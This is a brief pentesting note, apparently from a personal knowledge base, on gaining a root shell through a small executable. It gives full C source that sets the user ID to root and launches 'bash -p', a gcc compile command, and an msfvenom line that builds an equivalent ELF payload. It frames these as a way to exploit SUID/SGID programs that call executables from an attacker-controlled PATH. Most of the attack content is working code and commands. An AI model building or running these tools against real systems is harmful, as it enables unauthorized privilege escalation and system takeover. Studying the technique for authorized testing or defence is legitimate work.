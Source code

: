 # How to Load a Shell with a Simple Executable

**author**:: Nathan Acks  
**date**:: 2021-11-02

It's actually trivial to write a C program that loads up a shell.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void main() {
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -o /path/to/malicious /path/to/malicious.c
```

Note that this is *almost* identical to the LD_PRELOAD trick; the differences are:

* Use `main()` instead of `_init()` as our entry point.
* Compile without -shared and -nostartfiles.

A simple binary like this is useful for exploiting SUID/SGID applications that call other executables from part of the PATH that we control.

* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)

## Metasploit

The msfvenom tool can generate binaries with essentially the same functionality as above.

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf \
         -o shell.elf
```

* [Using Metasploit](metasploit.md)
